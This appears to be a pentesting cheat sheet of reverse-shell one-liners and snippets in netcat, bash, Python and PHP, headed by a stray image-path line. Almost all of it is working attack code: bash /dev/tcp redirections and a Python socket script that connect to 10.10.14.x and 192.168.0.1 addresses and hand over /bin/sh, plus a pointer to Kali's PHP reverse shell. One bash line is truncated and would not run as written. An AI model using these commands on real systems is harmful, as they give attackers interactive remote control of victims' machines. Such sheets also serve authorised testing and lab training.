 ```
nc 192.168.0.1 4444

```

## Bash

Bash

Reverse Shell

```
/bin/bash -i >& /dev/tcp/10.10.14.5/8888 0>&
/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.14.23/5555 0>&1"

```

[https://sentrywhale.com/documentation/reverse-shell](https://sentrywhale.com/documentation/reverse-shell) for openbsd and so on

## Python

Python

Reverse Shell

As Command:

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.121",8888));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

```

Python Code:

```
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("192.168.0.1",4444));os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])

```

## PHP

PHP

### Kali Default PHP Reverse Shell

Kali Default PHP Reverse Shell

```
cat /usr/share/webshells/php/php-reverse-shell.php

```
